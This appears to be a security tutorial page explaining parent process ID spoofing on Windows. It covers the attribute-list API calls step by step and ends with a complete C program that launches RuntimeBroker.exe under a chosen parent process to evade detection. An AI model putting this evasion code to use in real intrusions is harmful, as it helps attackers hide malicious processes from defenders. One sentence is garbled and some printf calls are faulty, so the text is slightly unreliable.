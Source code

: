 ```yaml
---
description: >-
  Parent Process ID (PPID) Spoofing is a technique used to alter the PPID of a
  process, effectively disguising the relationship between the child process and
  its true parent process.
---
```


# PPID Spoofing

[Parent Process ID (PPID) Spoofing](https://attack.mitre.org/techniques/T1134/004/) can make it appear as though a process was spawned by a different legitimate Windows process rather than the true parent process.

<mark style="color:red;">**NOTE:**</mark> Security solutions will often look for abnormal parent-child relationships. For example, if Microsoft Word spawns `cmd.exe` this is generally an indicator of malicious macros being executed. If `cmd.exe` is spawned with a different PPID then it will conceal the true parent process and instead appear as if it was spawned by a different process.



## Attribute List

PPID Spoofing requires the use and manipulation of a process's attributes list to modify its PPID.

An attribute list is a data structure that stores a list of attributes associated with a process or thread. Attribute lists can be used to efficiently store and retrieve information about processes and threads, as well as to modify the attributes of a process or thread at runtime. They contain information about state, CPU, and memory.



## Implementation

The steps below sum up the required actions to perform PPID spoofing.

1. `CreateProcessA` is called with the `EXTENDED_STARTUPINFO_PRESENT` flag to provide further control over the created process.
2. The `STARTUPINFOEXA` structure is created which contains the attributes list, `LPPROC_THREAD_ATTRIBUTE_LIST`.
3. `InitializeProcThreadAttributeList` is called to initialize the attributes list. The function must be called twice, the first time determines the size of the attributes list and the next call is the one that performs the initialization.
4. `UpdateProcThreadAttribute` is used to update the attributes by setting the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` flag which allow the user to specify the parent process of the thread.

### Create a Process

First we create a process witha

flag being set which is used to give further control of the created process. This flag allows us to modify PPID information.

Microsoft's documentation on `EXTENDED_STARTUPINFO_PRESENT` states the following:

_The process is created with extended startup information; the lpStartupInfo parameter specifies a STARTUPINFOEX structure. (Necessary for EXTENDED\_STARTUPINFO\_PRESENT)_

#### STARTUPINFOEXA Structure

The `STARTUPINFOEXA` data structure is shown below:

```c
typedef struct _STARTUPINFOEXA {
  STARTUPINFOA                 StartupInfo;
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList; // Attributes List
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;
```

* `StartupInfo` -  The only member that needs to be set is `cb` to `sizeof(STARTUPINFOEX)`.
* `lpAttributeList` This is the attribute list. Created with [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) function.

### Initializing The Attribute List

The `InitializeProcThreadAttributeList` function is shown below.

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags, 		// NULL (reserved)
  [in, out]       PSIZE_T                      lpSize
);
```

According to Microsoft's documentation, `InitializeProcThreadAttributeList` must be called twice:

1. The first call to `InitializeProcThreadAttributeList` should be `NULL` for the `lpAttributeList` parameter. This call is used to determine the size of the attribute list which will be received from the `lpSize` parameter.
2. The second call to `InitializeProcThreadAttributeList` should specify a valid pointer for the `lpAttributeList` parameter. The value of `lpSize` should be provided as input this time. This call is the one that initializes the attributes list.

`dwAttributeCount` will be set to 1 since only one attribute list is needed.

### Updating The Attribute List

Once the attribute list has been successfully initialized, use the [UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) WinAPI to add attributes to the list. The function is shown below.

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,   // return value from InitializeProcThreadAttributeList 
  [in]            DWORD                        dwFlags,           // NULL (reserved)
  [in]            DWORD_PTR                    Attribute,
  [in]            PVOID                        lpValue,           // pointer to the attribute value
  [in]            SIZE_T                       cbSize,            // sizeof(lpValue)
  [out, optional] PVOID                        lpPreviousValue,   // NULL (reserved)
  [in, optional]  PSIZE_T                      lpReturnSize       // NULL (reserved)
);
```

* `Attribute` - This flag is critical for PPID spoofing and states what should be updated in the attribute list. In this case, it needs to be set to the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` flag to update the parent process information.

The `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` flag specifies the parent process of the thread. In general, the parent process of a thread is the process that created the thread. If a thread is created using the `CreateThread` function, the parent process is the one that called the `CreateThread` function. If a thread is created as part of a new process using the `CreateProcess` function, the parent process is the new process. Updating the parent process of a thread will also update the parent process of the associated process.

* `lpValue` - The handle of the parent process.
* `cbSize` - The size of the attribute value specified by the `lpValue` parameter. This will be set to `sizeof(HANDLE)`.



## PPID Spoofing Function Code

```c
#include <stdio.h>
#include <wchar.h>
#include <windows.h>

int wmain(int argc, wchar_t* argv[]) {

    if (argc < 2) {
        wprintf(L"Insufficient Arguments Passed to Main Function!\n");
        return -1;
    }

    DWORD PID = _wtoi(argv[1]);

    HANDLE hProcess = NULL;

    STARTUPINFOEXA lpStartupInfoEx = { 0 };
    PROCESS_INFORMATION lpProcessInfo = { 0 };


	SIZE_T                             sThreadAttList       = NULL;
	PPROC_THREAD_ATTRIBUTE_LIST        pThreadAttList       = NULL;


    RtlSecureZeroMemory(&lpStartupInfoEx, sizeof(STARTUPINFOEXA));
	RtlSecureZeroMemory(&lpProcessInfo, sizeof(PROCESS_INFORMATION));

	// Setting the size of the structure
	lpStartupInfoEx.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    if (hProcess == NULL) {
        wprintf(L"Failed to Open Process PID: %d Error Code: %d\n",PID, GetLastError());
        return -1;
    }

    // This will fail with ERROR_INSUFFICIENT_BUFFER, as expected
	InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);	

	// Allocating enough memory
	pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
	if (pThreadAttList == NULL){
		wprintf(L"[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Calling InitializeProcThreadAttributeList again, but passing the right parameters
	if (!InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList)) {
		wprintf(L"[!] InitializeProcThreadAttributeList Failed With Error : %d \n", GetLastError());
		return -1;
	}

	if (!UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL)) {
		wprintf(L"[!] UpdateProcThreadAttribute Failed With Error : %d \n", GetLastError());
		return -1;
	}

	// Setting the LPPROC_THREAD_ATTRIBUTE_LIST element in SiEx to be equal to what was
	// created using UpdateProcThreadAttribute - that is the parent process
	lpStartupInfoEx.lpAttributeList = pThreadAttList;

    if (!CreateProcessA(
        NULL,
        "C:\\Windows\\System32\\RuntimeBroker.exe -Embedding",
        NULL,
        NULL,
        FALSE,
        EXTENDED_STARTUPINFO_PRESENT,
        NULL,
        NULL,
        &lpStartupInfoEx.StartupInfo,
        &lpProcessInfo
    )) {
        wprintf(L"CreateProcessA Failed with Error Code: %d\n");
        return -1;
    }

    wprintf(L"Created Process!", lpProcessInfo.dwProcessId);

    DeleteProcThreadAttributeList(pThreadAttList);
	CloseHandle(hProcess);
    getchar(); 
    return 0;
}
```

